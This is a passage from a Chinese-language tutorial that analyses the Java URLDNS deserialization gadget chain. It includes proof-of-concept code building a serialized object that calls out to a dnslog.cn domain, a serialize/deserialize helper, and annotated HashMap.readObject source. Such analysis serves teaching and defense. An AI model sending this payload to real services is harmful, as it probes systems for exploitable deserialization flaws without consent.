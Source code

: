 	        @Override
	        protected synchronized InetAddress getHostAddress(URL u) {
	            return null;
	        }
	    }
	
	    public static void main(String[] args) throws Exception {
	        Object object = getObject("http://aa32z3.dnslog.cn");
	        SerialUtil.runPayload(object);
	    }
	}

`SerialUtil.runPayload(object)` 的代码如下，就是将构造的恶意对象进行序列化和反序列化操作：

    public static void runPayload(Object object) throws Exception{
        ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(outputStream);
        objectOutputStream.writeObject(object);
        objectOutputStream.close();
        System.out.println(outputStream);
        new ObjectInputStream(new ByteArrayInputStream(outputStream.toByteArray())).readObject();
    }

一些说明如下：

- 利用链中，实例化URL对象时，传入一个自定义的 `SilentURLStreamHandler` 类对象，目的为了防止未反序列化前，执行了 `getHostAddress()` 方法。自定义的 `SilentURLStreamHandler` 重写了 `getHostAddress()` 方法，始终返回null，也没进行DNS解析请求，所以反序列化之前，不会进行DNS解析。
- 测试URLDNS攻击链，需要传入的url必须是域名格式的，否则不解析。因为是域名解析嘛，所以肯定得域名，ip是不支持的。
- URL类中的handler属性，是transient标识的，不进行序列化。反序列化时，从context中获取handler，所以即使URL对象中的handler属性是我们自定义的一个 `SilentURLStreamHandler` 类对象，反序列化时仍能执行 `getHostAddress()` 方法。

调用栈如下所示：

![URLDNS调用栈][p5]

调用栈分析如下：

java.util.HashMap#readObject入下所示，末尾 `putVal(hash(key), key, value, false, false);` 调用了 `hash(key)` ：

    private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);
